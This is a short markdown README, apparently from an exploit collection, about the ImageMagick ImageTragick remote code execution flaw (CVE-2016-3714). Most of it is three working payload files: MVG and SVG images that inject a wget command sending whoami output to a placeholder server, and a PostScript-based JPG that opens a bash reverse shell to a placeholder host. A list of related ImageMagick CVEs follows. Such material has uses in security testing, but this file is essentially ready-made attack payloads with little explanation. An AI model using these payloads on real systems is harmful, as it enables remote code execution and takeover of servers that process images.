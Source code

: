 ImageMagick (CVE-2016-3714)
===========================

There is a vulnerability in ImageMagick, that can lead to RCE. THe vulnerability
description and exploitation are described on the official website [ImageTragick](https://imagetragick.com/).

## Common exploits
`exploit.mvg`

```mvg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/x.jpg"|wget http://<server_ip>/$(whoami)'
pop graphic-context
```

`exploit.svg`
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd";>
<svg width="640px" height="480px" version="1.1" xmlns="http://www.w3.org/2000/svg"; xmlns:xlink="http://www.w3.org/1999/xlink";>
	<image xlink:href="https://127.0.0.1/x.jpg&quot;|wget http://<server_ip>/$(whoami)" x="0" y="0" height="640px" width="480px"/>
</svg>
```

`exploit.jpg`
```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/<host>/8080 0>&1') currentdevice putdeviceprops
```

## Others vulnerabilities

There is others known vulnerabilities:

- CVE-2016-3718 - SSRF
- CVE-2016-3715 - File deletion
- CVE-2016-3716 - File moving
- CVE-2016-3717 - Local file read
